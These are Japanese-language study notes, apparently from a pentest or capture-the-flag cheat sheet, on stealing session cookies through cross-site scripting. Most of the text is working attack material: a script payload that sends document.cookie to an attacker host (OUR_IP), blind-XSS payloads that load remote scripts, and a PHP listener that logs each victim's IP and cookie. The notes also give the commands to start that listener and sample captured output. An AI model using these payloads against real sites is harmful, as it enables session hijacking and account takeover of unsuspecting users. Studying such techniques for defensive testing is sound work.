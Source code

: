 窃取ができる条件
- セッション Cookie がすべての HTTP リクエストに含まれていること
- セッション Cookie が JavaScript コードからアクセス可能であること（**HTTPOnly 属性が設定されていないこと**）

どうやってCookieを盗むの？
- XSSでJavaScriptを実行してクッキーを抜く
	- 被害者のブラウザから自分のサーバーにCookieを送る
	- 例：画像の読み込みを使ってクッキーを送信

```sh
<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>
````

XSSを仕込むペイロード（外部JS読み込み形式）
- ブラインドXSS対策として、外部のスクリプトを読み込ませる
```
"><script src="http://OUR_IP/script.js"></script>
```

ブラインドXSSのテストでよく使うパターン
- フィールドごとにスクリプト名を変えて、脆弱な入力欄を特定
```
<script src="http://OUR_IP/username"></script>
<script src="http://OUR_IP/fullname"></script>
```

PHPで待ち受け用のサーバーを立てる
- Cookieをログファイルに保存する
```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

PHPサーバーの起動手順（待ち受け用）
```
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
```

クッキーが届くと、ログにはこう出る
```
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

保存されたクッキーの確認
```
cat cookies.txt
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
```
